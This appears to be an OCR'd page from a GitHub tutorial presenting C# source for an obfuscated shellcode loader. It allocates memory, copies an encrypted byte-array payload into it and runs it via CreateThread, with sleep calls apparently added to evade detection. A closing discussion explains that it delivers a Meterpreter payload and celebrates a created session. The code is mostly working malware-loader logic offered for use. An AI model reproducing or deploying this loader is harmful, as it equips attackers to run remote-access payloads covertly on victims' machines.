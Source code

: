 ```AES_KEY``` should be equal to the python script passphrase that we gave before.

    public static uint WSO(this UInt32 d, IntPtr aG4)

    {
        System.Threading.Thread.Sleep(5000);

        return WaitForSingleObject(aG4, 0xFFFFFFFF);
    }


    public class rOMcboO
    {
        public static void OQLRioRzeo(byte[] cGF5bG8)
        {
            if (cGF5bG8 != null)
            {
                UInt32 ZnVuY0FkZHIy = 1;

                UInt32 dHJ1bmNBZ = ZnVuY0FkZHIy.VA(cGF5bG8);


                System.Threading.Thread.Sleep(2000);

                Convert.ToUInt32("2").CPY(cGF5bG8, (IntPtr)(dHJ1bmNBZ));

                System.Threading.Thread.Sleep(2000);

                UInt32 tId = 0;

                System.Threading.Thread.Sleep(2000);

                IntPtr pin = IntPtr.Zero;


                System.Threading.Thread.Sleep(2000);

                Console.WriteLine("Bingo: X session created with sucess ;)");

                ZnVuY0FkZHIy.WSO(Convert.ToUInt32("3").CT(dHJ1bmNBZ, pin, tId));

                System.Threading.Thread.Sleep(1000);
            }
        }
    }
}
```
### Client Discussion
If I must to explain these lines of code shortly then i need to say this: with this 
code you will Allocate memory Space in current Process for your Meterpreter Payload 
then your code will copy Payload DATA from Managed Codes AREA  ```(byte[] X_Final)``` to 
Unmanaged Codes AREA ```(UInt32 funcAddr)``` by ```(Marshal.Copy)``` finally your code will
make New Thread by ```(CreateThread )``` in your Current Process also Executing that and 
waiting for Response from your New thread by ```(WaitForSingleObject(hThread, 0xffffffff))```.
Let's dive into more details.
